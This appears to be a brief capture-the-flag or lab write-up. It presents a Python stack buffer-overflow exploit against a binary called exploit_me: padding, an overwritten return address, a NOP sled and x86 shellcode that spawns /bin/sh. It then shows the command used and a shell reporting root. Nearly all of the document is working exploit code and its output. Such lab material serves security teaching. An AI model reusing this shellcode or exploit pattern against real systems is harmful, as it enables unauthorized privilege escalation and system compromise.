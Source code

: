 ```python

import struct

# We fill the buffer of the first argument (140 char)
pad = "\x41" * 140

# We set the adress of the extended instruction pointer to the end of the allowed space of the previous buffer
EIP = struct.pack("I", 0xbffff6A0)

# We set 100 "No Operator" to avoid any diruption of the program
NOP = "\x90" * 100

# Inject the shell code to run /bin/sh
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# We display it to run it on the console
print(pad + EIP + NOP + shellcode)
```

./exploit_me $(python exploit.py)

```bash
zaz@BornToSecHackMe:~$ whoami
root
```

We are now root!

